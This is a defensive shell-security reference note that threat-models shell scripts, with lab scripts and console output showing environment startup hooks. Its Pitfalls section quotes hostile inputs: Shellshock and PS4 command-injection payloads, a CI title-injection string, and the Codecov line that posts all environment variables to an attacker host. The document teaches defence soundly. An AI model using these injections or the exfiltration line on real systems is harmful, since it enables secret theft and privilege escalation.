

# Shell Threat Model

> [!summary] Claim
> A shell script's attack surface is everything its caller controls across `execve` plus every byte it reads, and the shell turns that data into code, options, paths, or command names at a short, enumerable list of sinks, some of which fire before the script's first line runs.

Part of [Shell Security](README.md) in [Shell and Unix Engineering](../README.md).

## TL;DR

- Mechanism: `execve` hands a script its argv, environment, open descriptors, umask, working directory, signal dispositions, and limits, all chosen by the caller, and the shell parses some environment variables (`BASH_ENV`, `BASH_FUNC_name%%`, `SHELLOPTS` with `PS4`, `ZDOTDIR`) as code at startup.
- Rule: list the sources (who controls each input), the sinks (where data becomes code, an option, a path, or a command name), and the privilege gap between them; then reset what a prologue can reset and clean the boundary for what it cannot.
- Trap: a prologue such as `PATH=/usr/bin:/bin; umask 077` runs too late for startup hooks and cannot re-arm a signal ignored on entry (POSIX.1-2024 XCU 2.15 `trap`), so those defenses belong to the caller (`env -i`, `sudo` `env_reset`, `bash -p`).
- Portability fact: in the lab, macOS `/bin/sh` (bash 3.2.57 in POSIX mode) runs an exported `BASH_FUNC_basename%%` function and a hostile `PS4` from the environment, native zsh 5.9.2 sources `$ZDOTDIR/.zshenv` for every script, and dash 0.5.13 and ksh93u+ 2012 honor none of these hooks.
- When not to use it: when the threat model says a script parses untrusted network input, crosses a privilege boundary it does not own, or needs a type for anything, stop hardening shell and write the component in a language with an `argv`-only process API.

## Mental model



The caller fills every slot of the `execve` boundary, so whoever controls the caller controls the script's initial state.
The shell's startup code reads some of that state as instructions, and the dotted arrow is the uncomfortable part: those startup hooks reach the effect without passing through anything the script author wrote.
The prologue can reset only the state that is still data when it runs (umask, `PATH`, `IFS`, `CDPATH`).
The body then reads more untrusted bytes, and harm happens only where those bytes meet a sink: a place where the shell or a utility interprets them as code, an option, a path, or a command name.
The supply-chain arrow skips the boundary entirely, because there the script text itself is the attacker's input.

## How it works

### Threat-model vocabulary, applied to a script

A threat model names the assets (what an attacker wants), the actors (who can supply input), the trust boundaries (where input changes hands), the sources (each input channel), and the sinks (where input changes meaning).
For shell, the assets are usually the privileges of the process (root via `sudo`, a deploy key, a CI token in the environment), the integrity of files the script writes, and the secrets it handles.
The actors recur across incidents:

- A local unprivileged user who starts a script that runs with more privilege than they have (`sudo`, a root cron job reading a user-writable file, a setuid helper that calls `system(3)`).
- A remote data supplier whose bytes reach the script as data: an HTTP header in a CGI program, a pull-request title in a CI job, a filename inside an uploaded archive.
- A co-tenant with the same or a different user ID who reads process metadata (`/proc/PID/cmdline`) or races the script on a shared directory.
- An upstream supplier whose code the script fetches and runs: an installer piped to `sh`, a release tarball, a CI action pinned to a movable tag.
- The script author, because a robustness bug (an unquoted expansion, a missing `--`) becomes a security bug as soon as an adversary chooses the input.

The question for each actor is the same: which sources does this actor control, and does any path lead from those sources to a sink while the process holds something the actor lacks.
If no privilege gap exists (the user runs their own script on their own files), most of this note is robustness, not security.

### The execve boundary: what the caller chooses

POSIX lists the attributes a new process image inherits: among them the real user and group IDs, supplementary groups, the working directory, the root directory, the file mode creation mask, the file size limit, the signal mask, pending signals, and the time left on an alarm (POSIX.1-2024 XSH `execve`).
Open descriptors without `FD_CLOEXEC` stay open, and signals set to `SIG_IGN` stay ignored, except `SIGCHLD`, which the standard leaves to the implementation (POSIX.1-2024 XSH `execve`).
The environment and argv are copied verbatim from the caller's arrays.
For a script, the shell adds its own layer: POSIX defines the shell execution environment as open files, the working directory, the umask, the file size limit, traps, shell parameters initialized from the environment, functions, options, background jobs, and aliases (POSIX.1-2024 XCU 2.13).
Every one of those that starts with a value starts with the caller's value.

Linux narrows one historical hole: "Linux (like most other modern UNIX systems) ignores the set-user-ID and set-group-ID bits on scripts" (execve(2)), so a privileged shell script needs an external elevator such as `sudo`, and the elevator's environment policy becomes part of the script's threat model (see [[setuid-and-Interpreted-Scripts]] and [[sudo-and-sudoers]]).

### Startup: where the environment becomes code before line 1

POSIX allows exactly one startup hook, and fences it: `ENV` is expanded and sourced "when and only when an interactive shell is invoked", and "shall be ignored if the user's real and effective user IDs or real and effective group IDs are different" (POSIX.1-2024 XCU 2.5.3).
POSIX also requires the shell to discard an inherited field separator: "The shell shall set IFS to <space><tab><newline> when it is invoked" (POSIX.1-2024 XCU 2.5.3).
Implementations add hooks that POSIX does not have, and those are the startup half of the attack surface:

- bash outside POSIX mode sources `$BASH_ENV` for every non-interactive shell; the guard in `run_startup_files()` is `posixly_correct == 0 && act_like_sh == 0 && privileged_mode == 0` (bash-5.3 shell.c, `run_startup_files`), so bash started as `sh` or with `--posix` skips it.
- bash imports a function from any variable named `BASH_FUNC_name%%` whose value starts with `() {`, by handing the name and value to `parse_and_execute()` (bash-5.3 variables.c, `initialize_shell_variables`); in POSIX mode it still imports names that are valid identifiers, and it skips names containing a slash, so `basename` can be shadowed but `/usr/bin/basename` cannot.
  This prefix-and-suffix encoding is the Shellshock fix, back-ported even to bash 3.2 ("This patch changes the encoding bash uses for exported functions", bash32-054).
- bash parses `SHELLOPTS` from the environment at startup when not privileged (bash-5.3 shell.c calls `initialize_shell_options (privileged_mode||running_setuid)`), so `SHELLOPTS=xtrace` turns on tracing and a hostile `PS4` is expanded, with command substitution, before every traced command.
  Since bash 4.4, a shell running as root binds `PS4` to `+ ` instead of importing it (bash-5.3 variables.c, `initialize_shell_variables`; CHANGES for bash-4.4-rc1, item g), which is the fix for CVE-2016-7543.
- Native zsh sources `/etc/zshenv` for every shell, interactive or not ("this cannot be overridden", zsh manual, Startup/Shutdown Files), and then `$ZDOTDIR/.zshenv` (or `$HOME/.zshenv` when `ZDOTDIR` is unset) unless `RCS` is off (`zsh -f`) or the shell is privileged; those two conditions skip only the user file (zsh Src/init.c, `run_init_scripts`, `isset(RCS) && unset(PRIVILEGED)`).
  Under `--emulate sh` or `ksh`, the same function reads only `/etc/profile`, `.profile` for login shells, and `ENV` for interactive ones.
- dash and BusyBox ash read `ENV` only when interactive (`iflag`), and on non-Linux builds only when the real and effective IDs match (dash src/main.c; BusyBox shell/ash.c); mksh reads `ENV` only for interactive shells (mksh main.c, under `Flag(FTALKING)`), and posh compiles its `ENV` branch only under `SILLY_FEATURES` (posh 0.14.1 main.c).

bash's own manual lists what it considers dangerous, as the set of things privileged mode turns off: "the `$BASH_ENV` and `$ENV` files are not processed, shell functions are not inherited from the environment, and the SHELLOPTS, BASHOPTS, CDPATH and GLOBIGNORE variables, if they appear in the environment, are ignored" (bash-5.3 doc/bashref.texi, `set -p`).
bash enters that mode automatically when its effective and real IDs differ, unless started with `-p`, and then sets the effective user ID to the real one (bash-5.3 doc/bashref.texi, "Invoked with unequal effective and real UID/GIDs").
`sudo` attacks the same problem from the caller's side: with `env_reset`, which is on by default, the command runs "in a minimal environment containing the TERM, PATH, HOME, MAIL, SHELL, LOGNAME, USER and SUDO_* variables", and the manual explains why it prefers an allowlist: "it is not possible to block all potentially dangerous environment variables" (sudoers(5), `env_reset`).
sudo's fallback denylist for `!env_reset` is still the best catalogue of environment hooks in one place: besides the shell variables `IFS`, `CDPATH`, `ENV`, `BASH_ENV`, `PS4`, `GLOBIGNORE`, `BASHOPTS`, `SHELLOPTS`, `FPATH`, `ZDOTDIR`, `NULLCMD`, and `READNULLCMD`, it lists loader variables (`LD_*`, `DYLD_*` on macOS), interpreter hooks (`PYTHONPATH`, `PYTHONSTARTUP`, `PERL5OPT`, `RUBYOPT`, `NODE_OPTIONS`, `JAVA_TOOL_OPTIONS`), `GIT_SSH_COMMAND`, `GIT_CONFIG_*`, and the pattern `*=()*` for bash functions (sudo plugins/sudoers/env.c, `initial_badenv_table`).
The lesson for a threat model is that the environment's attack surface includes every program the script starts, not only the shell.

### Runtime: inherited state the body consumes

After startup, the caller's state is data again, and it matters wherever the script relies on a default it never set:

- `PATH` decides which program a command name without a slash runs (POSIX.1-2024 XCU 2.9.1.4); a writable directory early in `PATH` replaces `id`, `rm`, or `tar` (see [[PATH-Hijacking]] and [[Command-Search-and-PATH]]).
- `CDPATH` is searched before the operand is tried relative to `.` for any `cd` operand that does not start with `/`, `.`, or `..` (POSIX.1-2024 XCU `cd`, DESCRIPTION step 5), and when a non-empty `CDPATH` entry is used, `cd` writes the new directory to standard output (POSIX.1-2024 XCU `cd`, STDOUT), which corrupts any `$(cd dir && ...)` capture.
  The standard's own application usage recommends `CDPATH= cd -P "./$dir"` for relative operands.
- The umask decides the mode of every file the script creates with a redirection; a caller who runs `umask 000` turns `printf '%s\n' "$token" > token.txt` into a world-writable file (see [[Permissions-umask-and-Special-Bits]]).
- A signal ignored on entry stays ignored: "Signals that were ignored on entry to a non-interactive shell cannot be trapped or reset, although no error need be reported when attempting to do so" (POSIX.1-2024 XCU 2.15, `trap`).
  `nohup` sets `SIGHUP` to ignored before it runs the utility (POSIX.1-2024 XCU `nohup`), so a `trap cleanup HUP` inside a script started by `nohup` silently never fires.
- `IFS` should already be reset by the shell, but posh 0.14.1 inherits it from the environment (shell matrix, 2026-10), so a script that splits unquoted expansions is at the caller's mercy there (see [[IFS-Attacks]]).
- Descriptors the caller left open (or closed) are the script's fds 0, 1, 2 and beyond; the standard's history notes that implementations "may want to reopen file descriptors 0, 1, and 2 for programs with the set-user-id or set-group-id file mode bits" (POSIX.1-2024 XSH `execve`, CHANGE HISTORY), and leaked descriptors are covered in [[Close-on-Exec-and-Descriptor-Inheritance]].
- Resource limits (`ulimit -f`, `-n`, `-s`) can make a write, an open, or a deep recursion fail partway through, which turns a non-atomic update into a half-written file (see [[Resource-Limits-and-ulimit]]).

### Sinks: where bytes change meaning

Untrusted bytes are harmless until a component interprets them.
The shell has four kinds of sink, each with its own sibling note:

| Sink kind | Where the shell or a utility reinterprets data | Owning note |
|---|---|---|
| Data -> code | `eval`, `sh -c "$var"`, `system(3)` and `popen(3)` (which run `sh -c`, POSIX.1-2024 XSH `system`), `.` and `source`, trap strings, arithmetic subscripts, `PS1`/`PS4`, `ssh host "$cmd"`, `find -exec sh -c`, CI template expansion | [[Command-Injection]], [[eval-and-sh-c]] |
| Data -> option | a word that starts with `-` reaching `rm`, `tar`, `git`, `curl` | [[Argument-Injection-and-Double-Dash]] |
| Data -> path | names with newlines, globs, or leading dashes; symlinks and races in shared directories | [[Hostile-Filenames]], [[Temporary-File-Attacks]], [[Path-Resolution-and-Symlink-Races]] |
| Data -> words and names | unquoted expansion under a chosen `IFS`, `PATH` lookup of a bare name, escape sequences sent to a terminal | [[IFS-Attacks]], [[PATH-Hijacking]], [[Terminal-Escape-Injection]] |

The shell's defining hazard is that the first row is the default: an unquoted expansion is split and globbed, and every `eval`-like construct re-runs the parser over data.
That is why the threat model for shell starts from sinks rather than from input validation: there are few sinks, and each one has a structural fix (pass data in argv, end options with `--`, prefix relative names with `./`, quote expansions).

### Secrets and observation

A script's arguments are not private: `/proc/PID/cmdline` "holds the complete command line for the process" (proc_pid_cmdline(5)), and with the default `hidepid=0` mount option "Everybody may access all /proc/pid directories" (proc(5)).
The environment is better protected, since access to `/proc/PID/environ` "is governed by a ptrace access mode PTRACE_MODE_READ_FSCREDS check" (proc_pid_environ(5)), but every child the script starts inherits every exported variable, which is how the Codecov uploader exfiltrated CI secrets (see Pitfalls and [[Secrets-in-argv-env-and-History]]).

### Supply chain: the script text is input

`curl ... | sh`, a vendored installer, and a CI action referenced by tag all make the script text itself attacker-controlled when the publisher is compromised.
The defenses (pinning by digest, checksum or signature verification before execution, running the fetched code with fewer privileges) are in [[Piped-Installers]] and [[Supply-Chain-Pinning-and-Verification]], and the landmark case is [[xz-Utils-Backdoor]].

## Numbers and limits

| Quantity | Value | Source |
|---|---|---|
| Startup hooks from the environment, bash 5.3.15 outside POSIX mode | 3 measured (`BASH_ENV`, `BASH_FUNC_name%%`, `SHELLOPTS` with `PS4`) | lab, macOS host (Darwin 27.3.0), 2026-11-15 |
| Same, macOS `/bin/sh` (bash 3.2.57, POSIX mode) | 2 measured (`BASH_FUNC_name%%`, `SHELLOPTS` with `PS4`) | lab, same host |
| Same, native zsh 5.9.2 | 1 measured (`ZDOTDIR`); `HOME` takes its place when `ZDOTDIR` is unset | lab, same host; zsh manual, Startup/Shutdown Files |
| Same, `zsh --emulate sh`, dash 0.5.13.5, ksh93u+ 2012-08-01 | 0 measured | lab, same host |
| Mode of a redirected file under an inherited `umask 000` | `-rw-rw-rw-` (0666), versus `-rw-------` after `umask 077` | lab, every local shell |
| `#!` line length read by Linux | 255 characters since Linux 5.1, 127 before | execve(2) |
| Recursion depth of script interpreters on Linux | 4 (since Linux 2.6.28) | execve(2) |
| Single argv or envp string on Linux | 32 pages (`MAX_ARG_STRLEN`), 128 KiB with 4 KiB pages | execve(2) |
| Total argv plus envp on Linux | 1/4 of the soft `RLIMIT_STACK`, capped at 3/4 of `_STK_LIM` (8 MiB), floor 32 pages | execve(2) |
| `/proc` visibility default | `hidepid=0`: every user can read every `/proc/PID/cmdline` | proc(5) |
| Shellshock (CVE-2014-6271) | bash through 4.3; published 2014-09-24 | NVD |
| `SHELLOPTS` + `PS4` root escalation (CVE-2016-7543) | bash before 4.4; published 2017-01-19 | NVD |
| Privilege drop keeps saved UID (CVE-2019-18276) | bash through 5.0 patch 11 | NVD |
| Codecov Bash Uploader tampering | 2021-01-31 to 2021-04-01, "108 windows of time" | Codecov postmortem |
| xz backdoor (CVE-2024-3094) | upstream tarballs from 5.6.0; published 2024-03-29 | NVD |
| tj-actions/changed-files (CVE-2025-30066) | tags v1 through v45.0.7 repointed on 2025-03-14 and 2025-03-15 | NVD |

## Portability

Cells marked "lab" were measured on the macOS host on 2026-11-15.
Cells marked "lab asserts" are what the lab's tests require for shells not installed on the host, derived from the cited source; none of them has been executed on those shells (as of 2026-11), so read them as source-derived expectations, not measurements.
Their basis is source-level: the trap cells follow XCU 2.15 `trap` (BusyBox ash records such signals as `S_HARD_IGN` in ash.c), the `cd` cells follow XCU `cd` step 5, and the startup files of mksh (main.c), posh (main.c), yash (yash.c, variable.c), and BusyBox ash (ash.c) contain no reference to `BASH_ENV`, `BASH_FUNC_`, `SHELLOPTS`, or `ZDOTDIR`; ksh93u+m 1.0.10 rests on the macOS ksh93u+ 2012 measurement alone.

| Shell | `IFS` from env | `BASH_ENV` (script) | `BASH_FUNC_x%%` import | `SHELLOPTS` + `PS4` | `ZDOTDIR/.zshenv` | `ENV` (script) | Trap a signal ignored on entry | `cd work` with `CDPATH` and `./work` present |
|---|---|---|---|---|---|---|---|---|
| POSIX sh | reset (XCU 2.5.3) | not specified | not specified | not specified | not specified | ignored, interactive only (XCU 2.5.3) | not allowed (XCU 2.15 `trap`) | `CDPATH` entry wins, path printed (`cd` step 5) |
| macOS `/bin/sh` (bash 3.2.57, POSIX mode) | reset (lab) | ignored (lab) | imported (lab) | runs (lab) | ignored (lab) | ignored (lab) | not trapped (lab) | `CDPATH` wins, printed (lab) |
| bash 3.2.57 and 5.3.15 | reset (lab; variables.c) | sourced (lab) | imported (lab) | runs (lab) | ignored (lab) | ignored (lab) | not trapped (lab) | `CDPATH` wins, printed (lab) |
| zsh 5.9.2 native | reset (lab) | ignored (lab) | ignored (lab) | ignored (lab) | sourced (lab) | ignored (lab) | trapped (lab) | `./work` first, nothing printed (lab; zsh manual `cd`) |
| `zsh --emulate sh` | reset (lab) | ignored (lab) | ignored (lab) | ignored (lab) | ignored (lab) | ignored (lab) | trapped (lab) | `CDPATH` wins, printed (lab) |
| dash 0.5.13.5 | reset (lab) | ignored (lab) | ignored (lab) | ignored (lab) | ignored (lab) | ignored (lab; main.c) | not trapped (lab) | `CDPATH` wins, printed (lab) |
| ksh93u+ 2012-08-01 (macOS `/bin/ksh`) | reset (lab) | ignored (lab) | ignored (lab) | ignored (lab) | ignored (lab) | ignored (lab) | not trapped (lab) | `CDPATH` wins, printed (lab) |
| ksh93u+m 1.0.10 | lab asserts reset | lab asserts ignored | lab asserts ignored | lab asserts ignored | lab asserts ignored | lab asserts ignored | lab asserts not trapped | lab asserts `CDPATH` wins |
| mksh R59 | lab asserts reset | lab asserts ignored | lab asserts ignored | lab asserts ignored | lab asserts ignored | ignored (main.c `FTALKING`) | lab asserts not trapped | lab asserts `CDPATH` wins |
| yash 2.58.1 | reset (yash variable.c `init_variables`) | lab asserts ignored | lab asserts ignored | lab asserts ignored | lab asserts ignored | lab asserts ignored | lab asserts not trapped | lab asserts `CDPATH` wins |
| posh 0.14.1 | inherited (shell matrix) | lab asserts ignored | lab asserts ignored | lab asserts ignored | lab asserts ignored | ignored (main.c `SILLY_FEATURES`) | lab asserts not trapped | lab asserts `CDPATH` wins |
| BusyBox 1.37.0 ash | reset (ash.c `defifsvar`) | lab asserts ignored | lab asserts ignored | lab asserts ignored | lab asserts ignored | ignored (ash.c `iflag`) | lab asserts not trapped | lab asserts `CDPATH` wins |

Two flags remove the startup hooks in the shells that have them: `bash -p` (privileged mode) and `zsh -p` both run the lab's victim cleanly with every hook set (lab, bash 3.2.57, bash 5.3.15, zsh 5.9.2 native and `--emulate sh`); Homebrew dash 0.5.13.5 rejects `-p` as an illegal option (measured on the host, 2026-11-15).
The utilities the lab uses behave the same across userlands for these purposes: `env -i` starts the utility with "exactly the environment specified by the arguments" (POSIX.1-2024 XCU `env`), and the first field of `ls -ln` is the POSIX mode string in GNU, BSD and macOS, and BusyBox `ls`, with a trailing `@` (macOS extended attributes), `+` (ACL), or `.` (SELinux context) that the lab strips.

## Worked example

The [lab](../labs/17-shell-threat-model/) starts three innocent scripts under hostile callers and asserts, per shell family, which inputs change their behavior.
`victim.sh` runs one utility:

```sh
#!/bin/sh
# victim.sh: an innocent script that runs one external utility and prints its result.
# The tests start it with hostile environment variables to show which shells run attacker
# code before this file's first line executes.
# Expected output with a clean environment: body y
printf 'body %s\n' "$(basename /x/y)"
```

`ambient.sh` reports what inherited process state did to it, without resetting anything:

```sh
#!/bin/sh
# ambient.sh: show how process state inherited across execve changes what a script does.
# Each mode computes and prints what it observed; nothing here resets the inherited state.
# Usage:
#   ambient.sh ifs          field count of 'a:b' and whether IFS came from the environment
#   ambient.sh cdpath       run from a directory holding work/: where `cd work` landed
#   ambient.sh umask FILE   create FILE and print its permission string
#   ambient.sh trap         whether a trap on SIGUSR1 can run
#   ambient.sh path         what the command named `id` printed
set -u
mode=${1:-}

case $mode in
  ifs)
    v='a:b'
    # shellcheck disable=SC2086,SC2248 # field splitting is the behavior under test
    set -- $v
    if [ "$IFS" = : ]; then
      ifs=inherited
    else
      ifs=reset
    fi
    printf 'ifs=%s fields=%s\n' "$ifs" "$#"
    ;;
  cdpath)
    out=$(cd work) || exit 1
    cd work >/dev/null || exit 1
    parent=$(cd .. && pwd -P) || exit 1
    if [ -n "$out" ]; then printed=yes; else printed=no; fi
    printf 'landed=%s printed=%s\n' "${parent##*/}" "$printed"
    ;;
  umask)
    file=${2:?usage: ambient.sh umask FILE}
    printf 'secret\n' >"$file"
    perms=$(ls -ln "$file") || exit 1
    printf 'mode=%s\n' "${perms%%[ +.@]*}"
    ;;
  trap)
    trap 'printf "trap=ran\n"; exit 0' USR1
    kill -USR1 "$$"
    printf 'trap=ignored\n'
    ;;
  path)
    who=$(id -un) || exit 1
    printf 'id=%s\n' "$who"
    ;;
  *)
    printf 'usage: %s ifs|cdpath|umask FILE|trap|path\n' "$0" >&2
    exit 64
    ;;
esac
```

`hardened.sh` runs the same probes behind a prologue:

```sh
#!/bin/sh
# hardened.sh: the probes of ambient.sh behind a prologue that resets the state a script can reset.
# It cannot undo code that ran before its first line (BASH_ENV, imported functions, .zshenv),
# and it cannot trap a signal ignored on entry; those need a clean boundary in the caller.
# Usage: hardened.sh FILE   (run from a directory holding work/)
set -u

# Prologue: reset every inherited input this script depends on.
umask 077
IFS=$(printf ' \t\nX')
IFS=${IFS%X}
PATH=/usr/bin:/bin
export PATH
unset CDPATH

file=${1:?usage: hardened.sh FILE}

v='a:b'
# shellcheck disable=SC2086,SC2248 # field splitting is the behavior under test
set -- $v
printf 'fields=%s\n' "$#"

out=$(cd ./work) || exit 1
cd ./work || exit 1
parent=$(cd .. && pwd -P) || exit 1
if [ -n "$out" ]; then printed=yes; else printed=no; fi
printf 'landed=%s printed=%s\n' "${parent##*/}" "$printed"

printf 'secret\n' >"$file"
perms=$(ls -ln "$file") || exit 1
printf 'mode=%s\n' "${perms%%[ +.@]*}"

who=$(id -un) || exit 1
printf 'id=%s\n' "$who"

# `command` skips shell functions, so an imported function cannot shadow the utility.
base=$(command basename /x/y) || exit 1
printf 'basename=%s\n' "$base"
```

Captured on the macOS host (bash 5.3.15, `/bin/sh` bash 3.2.57, dash 0.5.13.5, zsh 5.9.2), from a directory `app/` that holds `work/`, beside `evil/work/`, an `evil-bin/id` that prints `HIJACKED`, and a `hook.sh` that runs `echo HOOK-startup-file >&2`; the paths in the commands are shortened:

```console
$ env BASH_ENV=../hook.sh bash victim.sh
HOOK-startup-file
body y
$ env 'BASH_FUNC_basename%%=() { echo HOOK-function; }' /bin/sh victim.sh
body HOOK-function
$ env SHELLOPTS=xtrace 'PS4=$(echo HOOK-ps4 >&2)' /bin/sh victim.sh
HOOK-ps4
basename /x/y
HOOK-ps4
printf 'body %s\n' y
body y
$ env CDPATH=../evil dash ambient.sh cdpath
landed=evil printed=yes
$ (umask 000; dash ambient.sh umask exposed)
mode=-rw-rw-rw-
$ (trap '' USR1; dash ambient.sh trap; zsh ambient.sh trap)
trap=ignored
trap=ran
$ env PATH=../evil-bin:$PATH dash ambient.sh path
id=HIJACKED
$ (umask 000; env IFS=: CDPATH=../evil PATH=../evil-bin:$PATH 'BASH_FUNC_basename%%=() { echo HOOK-function; }' bash hardened.sh secret)
fields=1
landed=app printed=no
mode=-rw-------
id=<the output of /usr/bin/id -un>
basename=y
```

The `id=` line printed the host user's login name; the lab asserts it equals `/usr/bin/id -un`.
The lab's `threat-model.bats` also asserts that native zsh prints `HOOK-startup-file` before `body y` when `ZDOTDIR` points at a directory whose `.zshenv` is the hook, that `ENV` changes nothing in any non-interactive shell, and that one `env -i PATH=/usr/bin:/bin HOME=...` hop in front of the shell removes every hook at once.
All 15 tests passed under bash 5.3.15, `/bin/bash` 3.2.57, `/bin/sh`, dash 0.5.13.5, zsh 5.9.2, `zsh --emulate sh`, and `/bin/ksh` (ksh93u+ 2012-08-01) on the host.

## Pitfalls

> [!warning] Environment crossing a privilege boundary into bash (Shellshock)
> Trigger: a component sets environment variables from untrusted input and then starts bash; NVD names the `mod_cgi` and `mod_cgid` modules of the Apache HTTP Server, scripts run by DHCP clients, and the `ForceCommand` feature of OpenSSH `sshd` as vectors.
> Symptom: bash through 4.3 "processes trailing strings after function definitions in the values of environment variables", so a value such as `() { :; }; cmd` runs `cmd` at startup (CVE-2014-6271, NVD); the first fix was incomplete (CVE-2014-7169).
> Fix: patched bash only imports variables named `BASH_FUNC_name%%`, a name that a CGI server's `HTTP_` header variables cannot take, but the general rule is that a boundary that forwards untrusted data in the environment must use names the shell does not interpret and must never start bash with an inherited environment it did not build; see [[Shellshock]].

> [!warning] `SHELLOPTS` and `PS4` from the environment
> Trigger: a privileged program (a setuid binary that calls `system(3)`, a root wrapper) starts bash with the caller's environment.
> Symptom: `SHELLOPTS=xtrace` enables tracing and `PS4='$(cmd)'` runs `cmd` before every traced command; "Bash before 4.4 allows local users to execute arbitrary commands with root privileges via crafted SHELLOPTS and PS4 environment variables" (CVE-2016-7543, NVD).
> The lab shows the code still runs today in macOS `/bin/sh` and bash 5.3 for a non-root user; only root shells stopped importing `PS4` (bash 4.4 CHANGES).
> Fix: clean the environment at the boundary (`env -i`, `sudo` with `env_reset`), or start bash with `-p`, which ignores `SHELLOPTS` from the environment.

> [!warning] bash's automatic privilege drop kept the saved UID
> Trigger: bash started setuid (effective UID not equal to real UID) without `-p`.
> Symptom: bash set the effective UID to the real one but left the saved set-user-ID, so code in the shell could load a builtin with `enable -f` that calls `setuid()` and regain the privilege; affected bash through 5.0 patch 11, and binaries running with effective UID 0 were unaffected (CVE-2019-18276, NVD).
> Fix: never rely on a shell to drop privileges for you; drop them in the elevating program before `exec`, or use `sudo` with a fixed command (see [[Dropping-Privileges]]).

> [!warning] A launcher script is inside the blast radius
> Trigger: a wrapper written as a `#!/bin/sh` script is started in the hostile environment it is supposed to clean, and only then runs `env -i ...`.
> Symptom: in this lab's first draft, the macOS `/bin/sh` that ran the wrapper honored `SHELLOPTS=xtrace` and `PS4`, printed the hook, and traced its own `exec env -i` line, so the "clean boundary" test failed in every shell under test (lab, 2026-11-15).
> Fix: clean the environment in the first process that receives it, with a binary (`env -i`, `sudo`, the service manager) rather than a shell script, or start the wrapper's shell with `-p`.

> [!warning] `CDPATH` inside command substitution
> Trigger: a script does `dir=$(cd "$name" && pwd)` while the caller's environment exports `CDPATH`.
> Symptom: `cd` resolves `$name` against `CDPATH` before `.` and writes the new directory to standard output (POSIX.1-2024 XCU `cd`), so `dir` holds two lines, or the script works in the attacker's directory; native zsh tries `./name` first, so the bug hides on a zsh developer machine and appears under `/bin/sh` in production (lab).
> Fix: `unset CDPATH` in the prologue and prefix relative operands with `./`, as the standard's application usage recommends.

> [!warning] Cleanup traps that can never fire
> Trigger: a script relies on `trap cleanup HUP INT TERM` and is started by `nohup`, by a job runner that ignores signals, or by a non-interactive parent with `trap '' TERM`.
> Symptom: the signal was ignored on entry, so the shell silently refuses the trap (POSIX.1-2024 XCU 2.15, `trap`) and the temporary files or locks survive; zsh 5.9.2 does install the trap (lab), so tests on zsh hide the problem.
> Fix: do not rely on a signal trap for safety-critical cleanup; also trap `EXIT`, make the cleanup idempotent, and have the supervisor start jobs with default dispositions (see [[Cleanup-Traps-and-Re-Raising-Signals]]).

> [!warning] CI template expansion is `eval` with extra steps
> Trigger: a GitHub Actions `run:` step contains `title="${{ github.event.pull_request.title }}"`.
> Symptom: the runner substitutes the title into the script text before the shell parses it, so a title of `a"; ls $GITHUB_WORKSPACE"` runs `ls`, because "the `run` command executes within a temporary shell script on the runner" (GitHub Docs, Script injections).
> Fix: never place untrusted context inside the script text; map it to an environment variable in the step's `env:` and expand it quoted in the script, and treat third-party actions as supply-chain inputs: the tj-actions/changed-files tags v1 through v45.0.7 were repointed to a malicious commit on 2025-03-14 and 2025-03-15 (CVE-2025-30066, NVD).

> [!warning] Every exported variable reaches every child (Codecov)
> Trigger: a CI job fetches a third-party Bash uploader and runs it with the job's full environment.
> Symptom: from 2021-01-31 to 2021-04-01 the uploader carried an added line, `curl -sm 0.5 -d "$(git remote -v)<<<<<< ENV $(env)" https://IPADDRESS/upload/v2 || true`, which posted every environment variable, including tokens, to the attacker; a customer found it because the downloaded script's `shasum` did not match the one published on GitHub (Codecov, "Bash Uploader Security Update").
> Fix: verify fetched scripts against a pinned digest before running them, give each step only the secrets it needs, and pass secrets through files or descriptors rather than the environment (see [[Piped-Installers]] and [[Secrets-in-argv-env-and-History]]).

> [!warning] An inherited umask on files that hold secrets
> Trigger: a script writes a token, key, or config with a plain redirection and never sets a umask.
> Symptom: under a caller's `umask 000` the file is created `-rw-rw-rw-` (lab), readable and writable by every local user, and `chmod 600` afterwards leaves a window in which it is not.
> Fix: `umask 077` in the prologue, before the first file is created, or create the file with `mktemp` (see [[mktemp]]); `mkstemp(3)`, the library call behind such tools, creates the file "with permissions 0600" (mkstemp(3)).

## Security and robustness

Work the model in a fixed order, because each step narrows the next:

1. Assets and privilege: write down what the process can do that its least-privileged input supplier cannot (root, a deploy token, write access to a shared directory); if there is no gap, the work is robustness, not security.
2. Sources: list every input with its controller: argv, each environment variable the shell or a utility reads, stdin, each file and directory read, every filename enumerated, network replies, and the script text itself.
3. Sinks: mark each place a source reaches code, an option, a path, or a command name, using the table in How it works; the structural fixes are argv-only code (`sh -c '...' sh "$x"`), `--` before operands, `./` before relative names, quoted expansions, and no `eval`.
4. Boundary: decide which side cleans the state, knowing that only the caller can clean startup hooks and ignored signals: `env -i` with an explicit allowlist, `sudo` with `env_reset` and `secure_path`, a service manager unit, or `bash -p`/`zsh -p` in the interpreter line.
5. Prologue: reset what the script can: `umask 077` (or what the outputs need), `PATH` to a fixed list, `IFS` to the default, `unset CDPATH`, and `command name` (or absolute paths) for utilities that an imported bash function could shadow.
6. Residual risk: for each remaining path from a source to a sink, either remove it, move it behind a privilege drop or sandbox (see [[Dropping-Privileges]] and [[Sandboxing-Scripts]]), or record why it is accepted.

STRIDE gives a quick completeness check for step 3:

| STRIDE class | Shell form | First defense |
|---|---|---|
| Spoofing | `PATH` or an imported function stands in for `id`, `sudo`, `git` | fixed `PATH`, `command`, clean environment |
| Tampering | symlink or rename race on a predictable path; world-writable output under an inherited umask | `mktemp`, `umask 077`, write-then-rename (see [[Atomic-Writes]]) |
| Repudiation | logs written to a caller-controlled descriptor or a path in a shared directory | log to a descriptor the script opens itself, `logger` |
| Information disclosure | secrets in argv (`/proc/PID/cmdline`), exported to every child, written to history or `xtrace` | files or descriptors for secrets, `set +x` around them |
| Denial of service | inherited `ulimit`, ignored signals, a `read` with no timeout on attacker input | bounded reads, explicit limits, `timeout` |
| Elevation of privilege | `eval` or `sh -c` on data in a `sudo` rule; startup hooks in a root shell | argv-only invocation, `env_reset`, no shell between the boundary and the action |

Two robustness rules carry most of the weight: a privileged boundary must be crossed by a program that builds the child's environment from an allowlist, and a script must not depend on any inherited default it can set itself.

## The principal's view

